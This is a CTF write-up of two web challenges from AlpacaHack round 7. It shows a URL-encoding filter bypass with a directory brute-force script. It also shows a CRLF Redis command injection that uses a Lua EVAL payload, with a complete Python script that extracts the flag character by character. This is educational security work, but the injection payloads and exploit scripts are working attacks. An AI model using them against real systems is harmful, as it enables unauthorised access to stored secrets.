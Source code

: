 ```yaml
---
weight: 1
title: AlpacaHack CTF 2025 Web Writeups
date: 2024-11-30T13:32:12+03:00
draft: false
author: Jonathan Levy
authorLink: https://jonathann403.github.io
description: Writeups for WEB challenges in AlpacaHack (7th round) CTF 2024.
tags:
  - web
  - xss
  - redis
  - bruteforce
lightgallery: true
toc:
  enable: true
lastmod: 2024-11-30T13:32:12+03:00
---
```

## Introduction

While searching for a CTF to participate in this weekend with my team (FF2), I stumbled upon one by accident—and it turned out to be a great find! Hosted by a group from Tokyo, AlpacaHack is a CTF platform that organizes monthly CTF competitions (rounds), each focusing on a different theme. This time, it was web security!

## "Treasure Hunt" (116 pts, 71 solves)

![[Pasted image 20241130131728.png]]

Inside the challenge's files we have the server code files along with some random files containing emojis
![[Pasted image 20241130132056.png]]

in the `Dockerfile`, we can see this weird flag storing method:
![[Pasted image 20241130132149.png]]

![[Pasted image 20241130132640.png]]
after pasting it to terminal, we can see that flag's path is `./public/3/8/7/6/9/1/7/c/b/d/1/b/3/d/b/1/2/e/3/9/5/8/7/c/6/6/a/c/2/8/9/1/f/l/a/g/./t/x/t`  (a-f, 1-9)
while `public` means that we can GET to this file.

In `index.js` , at `GET /` the server returns this html that contains the files under the `./public` directory.

![[Pasted image 20241130133026.png]]
The server also returns `400` if the url contains `f,l,a,g` .
I've managed to bypass this check by passing the letters as url encoded:
![[Pasted image 20241130133401.png]]
![[Pasted image 20241130133527.png]]

now we need to get into the flag's directory and get the flag.
To do that, I need a way to find if any directory exist on the server, and I can do that by sending a request to the a directory (without `/`), for example: `GET /hello`,
If this directory exist server automatically redirects me to `/hello/`.

Let's see how I can automate it with python to get the flag.

```python
import httpx

url = "http://34.170.146.252:19843"
chars = "0123456789abcdeflagtxt"
flag = ""

with httpx.Client(base_url=url) as client:
    while True:
        for c in chars:
            path = flag + "/" + f"%{ord(c):02X}"
            response = client.get(path)

            if response.status_code == 301:
                flag = path
                print(flag)
                break
            elif response.status_code == 200:
                print(response.text)
                exit()
```

I've tried to make it with `requests` but it keeps redirecting me so I had to do it with httpx...
![[Pasted image 20241130135946.png]]

## "Alpaca Poll" (146 pts, 42 solves)

![[Pasted image 20241130140118.png]]

![[Pasted image 20241130140230.png]]

This challenge suppose to be a poll site... let's look at the source code:
![[Pasted image 20241130140349.png]]

we can see that this one uses `redis`, let's see how he manages to speak with the server.


![[Pasted image 20241130140529.png]]
![[Pasted image 20241130140630.png]]

by taking a look on these functions (and comments lol), we can understand that we have to find an injection in here.
![[Pasted image 20241130141024.png]]
also, in the init function, we can see that the flag is in a `redis key` named `flag`.

I'll deploy this challenge locally because of this function that prints the input/output of the redis:
![[Pasted image 20241130140921.png]]

Let's now focus on the `POST /vote`:

The `replace()` only replaces the first appearance of the provided char... that means we can bypass this check and have a command injection.

```js
const message = `INCR ${animal}\r\n`;
```
so for injection, we need to get message to be:
```js
const message = `INCR dog\r\nGET flag\r\n`;
```

and to make it happen, we need `animal`'s value to be: `\r\ndog\r\nGET flag`

explanation:
the first `\r\n` are deleted because of the replace() function, and the rest is not moving anywhare.

and after url encoding:

`animal=%0D%0Adog%0D%0AGET%20flag`

in the server, it looks like that (redis command injected successfully):
![[Pasted image 20241130141921.png]]

Now we need to of a creative way to make the client see the value of the flag!

![[Pasted image 20241130142329.png]]
![[Pasted image 20241130142339.png]]
as you can see, every value that is being returned, is getting inside the `parseInt()` function.
that means we can't return a string of the flag, BUT, we CAN return the ascii value of each letter in the flag, and get it inside a string key like dog, and send a request to `\getVotes` to get a dictionary of the results!

After some research, we can do it using the `EVAL` cmd in `redis` that executes a `lua` script that gives more features to the command.

```lua
`EVAL "redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), 1))" 0`
```

this will set dog's value to be flag's value at specific index of this string!

Now I can automate it with python:

```python
import requests
import json
import time

index = 1

vote_url = "http://localhost:3000/vote"
get_votes_url = "http://localhost:3000/votes"
flag = ""

while True:

	animal_value = f"\r\ndog\r\nEVAL \"redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), {index}))\" 0"
	res = requests.post(vote_url, data={"animal": animal_value})
	print(res.text)
	res2 = requests.get(get_votes_url)
	flag += chr(json.loads(res2.text)["dog"])
	index += 1
	if chr(json.loads(res2.text)["dog"]) == '}': break

print(flag)	
```


this does the job :)

Now, instead of localhost, let's put our instance: 
```python
vote_url = "http://34.170.146.252:32483/vote"
get_votes_url = "http://34.170.146.252:32483/votes"
```
![[Pasted image 20241130145312.png]]

YAY!